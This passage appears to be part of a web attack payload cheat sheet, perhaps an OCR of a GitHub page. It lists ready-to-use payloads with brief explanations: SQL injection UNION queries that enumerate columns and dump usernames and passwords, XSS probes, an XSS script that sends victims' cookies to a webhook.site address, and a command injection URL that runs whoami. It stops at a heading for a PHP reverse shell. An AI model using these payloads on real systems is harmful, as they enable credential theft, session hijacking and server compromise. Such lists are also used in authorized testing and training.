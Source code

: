 ```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users' #
```

Enumerate column names for a known table.

---

### SQL Injection - Dump User Data

```
' UNION SELECT username, password FROM users #
```

Extract usernames and passwords from the users table.

---

### XSS - Prompt Popup

```
<script>prompt('1')</script>
```

Test for XSS by triggering a simple popup.

---

### XSS - Image OnError

```
<img src=x onerror="prompt(1)">
```

Trigger XSS via image tag onerror event.

---

### XSS - Exfiltrate Cookies

```
<script>fetch('https://webhook.site/your-id?cookie=' + document.cookie)</script>
```

Send victim cookies to a webhook to exfiltrate data.

---

### Command Injection - Test

```
http://target.com/page?input=127.0.0.1; whoami; asd
```

Test server execution of system commands via URL parameter.

---

### Command Injection - Reverse Shell PHP

